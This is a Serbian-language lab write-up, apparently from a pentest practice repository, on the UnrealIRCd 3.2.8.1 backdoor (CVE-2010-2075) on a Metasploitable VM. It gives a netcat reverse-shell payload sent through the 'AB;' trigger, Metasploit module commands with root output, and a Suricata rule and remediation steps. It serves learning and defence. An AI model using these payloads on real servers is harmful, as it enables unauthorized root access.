



# UnrealIRCd 3.2.8.1 — Backdoor (CVE-2010-2075)

Slično kao kod vsftpd-a, ovde nije reč o grešci u logici servisa nego o
kompromitovanom izvornom kodu — neko je između novembra 2009. i juna 2010.
zamenio legitiman UnrealIRCd tarball na zvaničnom download serveru sa
verzijom koja sadrži backdoor. Svako ko je preuzeo i instalirao taj build
u tom periodu dobio je server sa ugrađenim daljinskim pristupom.

## Cilj
- IP: 192.168.56.102
- Port: 6667 (IRC)
- Servis: UnrealIRCd 3.2.8.1

## CVE
CVE-2010-2075

## Tip napada
Backdoor ubačen u izvorni kod (supply chain kompromitacija)

## MITRE ATT&CK
- T1190 – Exploit Public-Facing Application
- T1059 – Command and Scripting Interpreter

## Mehanizam

Backdoor kod prepoznaje poruke koje počinju sa `AB;` kao komande — sve što
sledi posle tog prefiksa izvršava se direktno kao shell komanda na serveru,
bez ikakve autentifikacije. Dovoljno je poslati tu poruku kroz običnu TCP
konekciju na port 6667.

---

## Korak 0: Potvrda servisa

```bash
nc -nv 192.168.56.102 6667
```



Server se javlja kao `irc.Metasploitable.LAN`, potvrđujući da IRC servis
radi na portu 6667. (Konekcija sama pada posle nekog vremena zbog "Ping
timeout" — obična `nc` sesija ne odgovara na IRC `PING` zahteve, što je
očekivano i ne utiče na dalji tok.)

---

## Metod 1: Ručna eksploatacija

### Korak 1: Pokreni listener

```bash
nc -lvnp 4444
```

### Korak 2: Pošalji payload

```bash
echo -e "AB; nc 192.168.56.101 4444 -e /bin/sh" | nc 192.168.56.102 6667
```

`AB;` je okidač koji backdoor prepoznaje, a sve posle toga se izvršava kao
shell komanda — u ovom slučaju šalje reverse shell nazad na listener.

### Rezultat



whoami → root
id → uid=0(root) gid=0(root)
hostname → metasploitable


---

## Metod 2: Metasploit

### Komande

```bash
msfconsole
search unrealircd
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
run
```

### Rezultat



[+] The target appears to be vulnerable. UnrealIRCd detected via IRC commands
[*] Meterpreter session 1 opened
meterpreter > shell
whoami → root
id → uid=0(root) gid=0(root)
hostname → metasploitable


Meterpreter u ovom slučaju ne prepoznaje `whoami` kao svoju komandu (koristi
se `getuid` za to), pa je bilo potrebno ući u pravi shell (`shell` komanda)
da bi se pokrenule standardne Linux komande.

---

## Detekcija (blue team ugao)

- Poruke na IRC portu koje počinju sa `AB;` — ovo nije deo standardnog IRC
  protokola i lako je prepoznatljivo pattern matching-om
- Odlazna konekcija sa IRC servera ka eksternom IP-u i portu, tipično za
  reverse shell
- Proces poput `nc` ili `bash` koji se spawn-uje iz IRC daemona — jasna
  anomalija u process tree-u
- Novoregistrovan IRC korisnik praćen odmah spawn-ovanim shell procesom

## IDS potpis (Suricata primer)

alert tcp any any -> any 6667 (msg:"UnrealIRCd backdoor command attempt"; content:"AB;"; sid:9000003;)


## Remedijacija

- Nikada ne koristiti UnrealIRCd 3.2.8.1 — proveriti checksum preuzetog
  paketa pre instalacije, koristiti samo zvanične, potpisane repo-e
- Upgrade na verziju bez backdoor-a
- Firewall pravilo koje ograničava pristup IRC portu samo na poverljive IP
  adrese
- Monitoring neuobičajenog sadržaja u IRC saobraćaju

## Screenshots
- `03_unrealircd_banner.png`
- `03_unrealircd_root.png`
- `03_unrealircd_metasploit_root.png`